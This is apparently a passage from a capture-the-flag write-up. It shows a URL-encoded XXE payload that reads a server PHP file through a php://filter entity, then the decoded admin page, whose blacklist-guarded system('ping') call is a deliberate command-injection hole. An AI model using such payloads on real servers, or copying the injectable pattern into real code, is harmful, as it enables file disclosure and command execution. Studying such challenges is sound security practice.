 ```
auth=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'php://filter/convert.base64-encode/resource=/var/www/html/scarecrow/personal_secret_admin_page.php'>]><root><user>%26test%3b</user></root>
```

![](images/scare/source.png)

After decoding the base64 we'll get

```php
<?php
$ip = $_SERVER['REMOTE_ADDR'];
if($ip === "127.0.0.1"){
  echo "Hello Admin!";
}
else{
  die("only admin can access here! and you are not: 127.0.0.1");
}
//because blacklists are awesome!!!
$blacklist = array("$","&","|","(",")","`","-","{","}",";",">","<");
if(isset($_GET["ip"])) {
  $ip = $_GET["ip"];
  foreach ($blacklist as $key) {
    if(strpos($ip, $key) !== false){
      die("bad character in ip!!!");
    }
  }
  system("ping -c 4 ". $ip);
}
?>

<html>
<body>
<h2>Admin panel page</h2>
  <form id="myForm" >
    <input type="text" name="ip">
    <input type="submit">
  </form>
</html>
```

Same way we can read the source of `login.php`
